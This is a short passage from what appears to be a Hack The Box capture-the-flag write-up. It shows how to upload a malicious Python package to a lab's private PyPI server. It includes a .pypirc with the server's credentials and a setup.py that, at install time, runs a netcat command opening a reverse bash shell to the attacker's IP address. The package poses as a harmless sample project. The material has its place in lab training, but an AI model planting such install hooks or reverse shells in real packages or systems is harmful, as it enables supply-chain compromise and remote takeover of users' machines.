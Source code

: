 <p>i have to make two files </p>
<ul><li>.pypirc</li><li>setup.py</li></ul>
  
<p>The file <code class="language-plaintext highlighter-rouge">.pypirc</code>will give me authority and setup.py will be contain the package</p>
  
<blockquote><p>.pypirc</p></blockquote>
<pre>[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui</pre> 

<blockquote><p>setup.py</p>
<p>will contain the reverse shell</p>  
</blockquote>  
  
<pre><span class="kn">import</span> <span class="nn">setuptools</span>
<span class="kn">import</span> <span class="nn">os</span>

<span class="k">if</span> <span class="n">os</span><span class="p">.</span><span class="n">getuid</span><span class="p">()</span> <span class="o">==</span> <span class="mi">1000</span><span class="p">:</span>
        <span class="n">os</span><span class="p">.</span><span class="n">system</span><span class="p">(</span><span class="s">'nc -e /bin/bash 10.10.17.16 2345'</span><span class="p">)</span>


<span class="n">setuptools</span><span class="p">.</span><span class="n">setup</span><span class="p">(</span>
        <span class="n">name</span><span class="o">=</span><span class="s">'sample'</span><span class="p">,</span>
        <span class="n">version</span><span class="o">=</span><span class="s">'1.2.0'</span><span class="p">,</span>
        <span class="n">description</span><span class="o">=</span><span class="s">'A sample Python project'</span><span class="p">,</span>
        <span class="n">long_description</span><span class="o">=</span><span class="s">"long_description"</span><span class="p">,</span>
        <span class="n">long_description_content_type</span><span class="o">=</span><span class="s">'text/x-rst'</span><span class="p">,</span>
        <span class="n">url</span><span class="o">=</span><span class="s">'https://github.com/pypa/sampleproject'</span><span class="p">,</span>
        <span class="n">author</span><span class="o">=</span><span class="s">'A. Random Developer'</span><span class="p">,</span>
        <span class="n">author_email</span><span class="o">=</span><span class="s">'author@example.com'</span><span class="p">,</span>
        <span class="n">license</span><span class="o">=</span><span class="s">'MIT'</span><span class="p">,</span>
        <span class="n">packages</span><span class="o">=</span><span class="n">setuptools</span><span class="p">.</span><span class="n">find_packages</span><span class="p">(),</span>
        <span class="n">install_requires</span><span class="o">=</span><span class="p">[</span><span class="s">'peppercorn'</span><span class="p">],</span>
<span class="p">)</span>
</pre>  
 